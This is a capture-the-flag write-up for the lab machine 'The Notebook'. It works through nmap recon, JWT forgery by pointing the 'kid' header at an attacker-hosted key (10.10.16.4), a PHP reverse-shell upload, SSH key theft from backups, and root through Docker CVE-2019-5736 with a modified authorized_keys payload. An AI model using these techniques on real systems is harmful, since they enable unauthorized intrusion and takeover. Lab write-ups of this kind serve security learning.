









<p align="center">
  
</p>

***

# External Recon

We start our external recon with an nmap scan. Only two ports are open with a third one filtered.

```
nmap -sC -sV -oN inital 10.10.10.230

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
```

The most interessting service so far is http on port 80. Let's take a peek there.



Looks like an app to take notes. We could try to bruteforce the login page. But I would rather explore the app first. Let's register an account. 

[[Top]](#top)

# Explore

Once the account has been created we can explore the various parts of the webapp and create notes. I even tried some simple injections with
single quotes etc. but the app seems not vulnerable to those attacks.

Let's check how the application handles authentication. F12 to open the developer tools of the browser and check the storage tab where our access tokens are stored.



First thing I notice is the "auth" token. It starts with `eyJ` and this is indicative for "JWT-Tokens". [This page](https://dinochiesa.github.io/jwt/) has a nice decoder.



On the top-right we can see the header. And it already leaked some interessting information. The parameter `kid` or `key-id` holds the information about the private-key used to sign this token.

On the bottom-right we see our login data. And as the `admin_cap` paramater states, we are not an admin. We would like to change that though.
We can edit the token and change the 0 to a 1. But that would invalidate the signature. At least if the application in the backend checkes the signature. After playing with the token a bit, it seemed like it does check the signature. So we have to find a way to sign the token with a valid key.

Maybe the application allows us to inject our own value in the `kid` parameter. This way we could host a webserver with our own keys, which we would use to sign our forged token.

[[Top]](#top)

# Exploit

Let's start with a proof of concept. We will change the `kid` parameter (you can use the website above) to our IP and start a webserver with `python3 -m http.server 7070` and see if we get a request from the server.
Then copy the changed token into your browser.



Fantastic. The webserver tried to verify the key by following the outbound url. Let's now change the `admin_cap` parameter to `1`. If you used the site above, it already created a key-pair for you.
Just take the public key and save it in your web-root so that the webrequest from the server can read it. At the end of this writeup, I'll show you an alternative way of forging that token.

Once you're done with the setup and hit refresh in your browser, you should get access to the admin-panel and you should be able to read all notes.



The admin panel itself gives you an option to upload a file. We could try to upload a php reverse shell on the box to get in.
The notes even tell you that there's a "problem" that php files are being executed. The fix is pending. So, this has to be the way in.

Let's grab a good [php-reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and open a netcat listener.
Don't stop your webserver just yet. It's still needed to stay authenticated.



We have a shell. Let's upgrade our shell to a propper tty with `python3 -c 'import pty;pty.spawn("/bin/bash")'` then `ctrl-z` to background the shell. Then type `stty raw -echo` and hit enter
followed by `fg` and enter twice. Now you should be back. Last step is `export TERM=xterm`.

[[Top]](#top)

# Internal Recon

Now that we are in, we need to find a way to escalate our privileges. A look into `/etc/passwd` reveals a user named "noah". We've seen this name in the notes on the website before.
He just managed to setup his backup. With `find / -type d -name "*backup*"` we can search for a folder named "backup" and will show a folder where we have access to: `/var/backups`.

In there is a tar.gz backup of noah home directory. We will copy it to `/tmp` and unpack with `tar -xvzf`. Inside we find a noahs ssh-key. A quick `chmod 600` on it is enough to make it work for us.



Here we also find the user.txt.

[[Top]](#top)

# Privilege Escalation

Now it's time dig deeper and find a way to get root. Let's start with the basics: `sudo -l`.



We can run a single command as sudo without password. In this case a `docker` command.
Run `docker --version` to check which docker version is installed: 

```
Docker version 18.06.0-ce, build 0ffa825
```

This is an old version. After a small google search we can assume this docker version is vulnerable against `CVE-2019-5736`.
I picked [this exploit](https://github.com/Frichetten/CVE-2019-5736-PoC), mainly because it's easy to edit and compile.

To set it up we clone the git repo to our box. Then we need to change the exploit to fit our needs.
The exploit, as is, will copy the /etc/shadow file and make it readable. But this is not what we want. We can copy the authorized_keys file from noah in the home directory of root. 

So changing the payload to this should do the trick.

`var payload = "#!/bin/bash \n cat /home/noah/.ssh/authorized_keys >> /root/.ssh/authorized_keys"`

We compile the exploit with `go build main.go` and rename the binary from `main` to `exploit`. 

Now, for this to work you need three terminals. In the first one you need to get into the docker container via `sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash`. 
Here you will grab your exploit via `wget` from your local python webserver and `chmod +x` and launch it via `./exploit`.

In the second terminal windows you will ssh into the box with noah again and then trigger the exploit via `sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh`.

In the third window you can now try to ssh into the box as root with the rsa key of noah. The following screenshot shows this setup after the exploit
successfully triggered.



And that's it. We've rooted a medium difficulty machine once again. 

# Bonus Content

As promissed here's an alternative way to mess with the token. First we need to create a key-pair with ssh-keygen.

```
ssh-keygen -t rsa -b 4096 -m PEM -f jwt.key
```

Then we get a copy of the [jwt-tool](https://github.com/ticarpi/jwt_tool).

Which in turn can be used to edit and sign the token.

```
python3 jwt_tool.py [eyJ0eXAiOiJKV1QiLCJhbG..snip..] -I -hc kid -hv "http://10.10.16.4:7070/jwt.pub" -pc admin_cap -pv 1 -S rs256 -pr jwt.key
```

You can do a lot of more things with jwt_tool. But that's another topic.

Have a nice one.

x41

[[Top]](#top)
